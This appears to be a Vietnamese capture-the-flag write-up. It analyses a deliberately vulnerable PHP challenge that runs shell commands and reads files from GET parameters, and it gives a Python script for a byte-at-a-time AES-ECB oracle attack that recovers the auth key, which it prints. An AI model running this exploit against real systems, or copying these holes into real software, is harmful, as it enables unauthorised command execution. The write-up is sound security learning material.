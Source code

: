 Source của bài như sau:
```php
<?php

session_start();
@require_once 'config.php';

if (isset($_GET['debug'])) {
	show_source(__FILE__);
	die();
}

define('BLOCK_SIZE', 16);

function pad($string) {
	if (strlen($string) % BLOCK_SIZE === 0)
		$plaintext = $string;
	else  {
		$s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
		$plaintext = $string.str_repeat(chr($s), $s);
	} 
	return $plaintext;
}
function encrypt($name) {
	global $auth_key, $key_for_enc; // from config.php with luv!!

	$method = 'AES-128-ECB';
	$plaintext = pad($name.$auth_key);
	return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
	$_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
	if (safe($_GET['file'])) 
		@readfile($_GET['file']);
	else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
	if ($_GET['auth_key'] === $auth_key) {
		if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
			@system($_GET["command"]);
	}
	else echo "Wrong auth_key!!";
}

?>


<h1>Hello hacker ^>^ </h1>

<!-- 
// TODO: Remove 

<strong>To debug, use ?debug=hint </strong>
-->
```

Đây là một bài của anh Nhiên ra khá là khoai so với mình(vì mình chưa học mấy kiểu mã hóa này). 

Phân tích source code:

Mục đích cuối cùng là có thể truyền `command` vào, mà để có thể truyền được `command` thì ta phải lấy được `auth_key`.

-> `auth_key` được nằm trong file `config.php`, chúng ta nhìn thấy có 1 cái param truyền vào là file và được content file. Một ý nghĩ đã thoáng qua đầu mình là dùng cái đó để đọc 
file config nhưng không được vì đã bị filter và hàm `safe` nằm trong file `config.php`.

Rồi ok đến phân tích đoạn khó nhất của bài này đó là hàm `encrypt`. Đây là hàm sử dụng thuật toán mã hóa `AES-128-ECB`. 

Thuật toán mã hóa `ECB` được miêu tả như sau:

![image](https://user-images.githubusercontent.com/96786536/157676314-c26af337-edf6-4536-879d-0da24e51c740.png)

Các bạn có thể tham khảo thêm ở đây: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation

Rồi tấn công như thế nào. Đây là thuật toán khá yếu và mình có thể brute force từng kí tự của `auth_key`. Vì đây là thuật toán mã hóa dạng khối (16 byte 1 khối), ta có thể tấn công như sau:

VD ta có payload: `aaaaaaaaaaaaaaa{char}aaaaaaaaaaaaaaa`.
`char` sẽ là kí tự mà chúng ta brute force. Khi payload + auth_key -> `aaaaaaaaaaaaaaaAaaaaaaaaaaaaaaaXXXXXXXXXXXXXX`, XXXXXXXXXXXXXX là auth_key(bạn có thể test và thấy auth_key có độ dài 14). Khi thực hiện mã hóa sẽ hia chuỗi trên thành các khối như sau: `aaaaaaaaaaaaaaa{char}` và `aaaaaaaaaaaaaaaX` rồi ta thực hiện brute force char đến khi 2 block bằng nhau thôi. Mình giải thích hơi khó hiểu mọi người có thể đọc ở đây https://zachgrace.com/posts/attacking-ecb/.

Đây là script của mình: 
```python
import requests as r
from string import printable


cookie = {
    "PHPSESSID": "panshloogognn8pto755ibdi29"
}

url = 'http://localhost:2010/'

# sau khi thu thi biet duoc auth key co do dai la 14
auth_key = ""
for i in range(15, 0, -1):
    for char in printable:
        payload = f'?name={"A" * i + auth_key + char + "A" * i}'
        res = r.get(url + payload, cookies = cookie)
        res = r.get(url + "?file=/tmp/sess_panshloogognn8pto755ibdi29").text
        # print(res.split('"')[1], payload)
        res = res.split('"')[1]

        if res[:32] == res[32:64]:
            auth_key += char
            print(auth_key)
            break
```

Lấy được auth_key là: `AuthKey4N00b3r`.

Thực hiện command thôi:

![image](https://user-images.githubusercontent.com/96786536/157678507-7b13fdc7-0362-4a67-b75f-72173a23690c.png)

